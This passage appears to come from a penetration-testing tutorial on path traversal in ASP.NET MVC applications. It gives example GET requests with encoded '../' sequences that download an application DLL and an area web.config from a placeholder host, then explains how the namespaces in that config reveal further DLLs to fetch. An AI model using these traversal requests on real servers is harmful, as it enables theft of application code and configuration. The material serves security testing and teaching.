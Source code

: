 ```
GET /download_page?id=..%2f..%2fbin/WebApplication1.dll HTTP/1.1
Host: example-mvc-application.minded
[...]
```

From the previous output, inside the /bin directory you will also be able to find the Dlls

* System.Web.Mvc.dll
* System.Web.Mvc.Ajax.dll
* System.Web.Mvc.Html.dll
* System.Web.Optimization.dll
* System.Web.Routing.dll

Let's suppose that the previous DLL is importing a namespace called **WebApplication1.Areas.Minded.** an attacker can infer that other web.config files are present in the application, in guessable/default paths as **/area-name/Views/**, containing specific configurations that may refer to other DLL files present in the /bin folder.

```markup
GET /download_page?id=..%2f..%2fMinded/Views/web.config HTTP/1.1
Host: example-mvc-application.minded
[...]

HTTP/1.1 200 OK
[...]
<?xml version="1.0"?>
<configuration>
<configSections>
  <sectionGroup name="system.web.webPages.razor" type="System.Web.WebPages.Razor.Configuration.RazorWebSectionGroup, System.Web.WebPages.Razor, Version=3.0.0.0, Culture=neutral">
    <section name="host" type="System.Web.WebPages.Razor.Configuration.HostSection, System.Web.WebPages.Razor, Version=3.0.0.0, Culture=neutral" requirePermission="false" />
    <section name="pages" type="System.Web.WebPages.Razor.Configuration.RazorPagesSection, System.Web.WebPages.Razor, Version=3.0.0.0, Culture=neutral” requirePermission="false" />
  </sectionGroup>
</configSections>
<system.web.webPages.razor><host factoryType="System.Web.Mvc.MvcWebRazorHostFactory, System.Web.Mvc, Version=5.2.3.0, Culture=neutral" />
<pages pageBaseType="System.Web.Mvc.WebViewPage">
<namespaces>
  <add namespace="System.Web.Mvc" />
  <add namespace="System.Web.Mvc.Ajax" />
  <add namespace="System.Web.Mvc.Html" />
  <add namespace="System.Web.Routing" />
  <add namespace="System.Web.Optimization" />
  <add namespace="WebApplication1" />
  <add namespace="WebApplication1.AdditionalFeatures" />
</namespaces>
```

Note how in the previous output you can see a new namespace called: **WebApplication1.AdditionalFeatures** which indicates that there is another Dll in the /bin folder called **WebApplication1.AdditionalFeatures.dll**
